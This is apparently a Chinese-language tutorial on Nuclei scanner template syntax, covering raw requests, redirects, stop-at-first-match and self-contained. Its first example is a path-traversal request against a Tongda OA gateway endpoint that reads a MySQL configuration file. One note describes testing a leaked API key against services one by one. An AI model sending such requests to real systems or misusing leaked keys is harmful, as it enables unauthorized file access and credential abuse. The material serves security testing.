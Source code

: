 #### RAW

```yaml
requests:
  - raw:
      - |
        POST /ispirit/interface/gateway.php HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

        json={"url":"/general/../../mysql5/my.ini"}
```

#### 跳转

```yaml
  - method: GET
    path:
      - "{{BaseURL}}"
    redirects: true
    max-redirects: 2
```

#### stop-at-first-match

Same support as we have via flag using -stop-at-first-match flag, will be helpful for the case where we have multiple possible paths for same file, in cases where we found matches at the start, we can avoid making additional requests.

大意就是一个模板里有多个扫描路径,当第一个命中时,自动停止后面几个路径的扫描,当然这个不会影响其他模板.

```yaml
requests:
  - method: GET
    path:
      - "{{BaseURL}}"
      - "{{BaseURL}}/login"
      - "{{BaseURL}}/main"
      - "{{BaseURL}}/index"

    stop-at-first-match: true
```

#### self-contained

A new attribute to HTTP requests that marks all the HTTP Requests in that template as self-sufficient, meaning they do not require any input to be executed.

这个用的比较局限,一般就是用于批量检测 API 可用性的,举个例子,你通过信息泄露获得了一个 API_Key 但你不知道这个是哪个服务的 APIkey,没有特征,那么就只能找哪些官方API接口一个一个试,看哪一个平台可以生效,就是这个意思。

国内环境用的不多,我对这块也没研究过.

```yaml
id: example-self-contained-input

info:
  name: example-self-contained
  author: pdteam
  severity: info

self-contained: true
requests:
  - raw:
      - |
        GET https://example.com:443/gg HTTP/1.1
        Host: example.com:443

    matchers:
```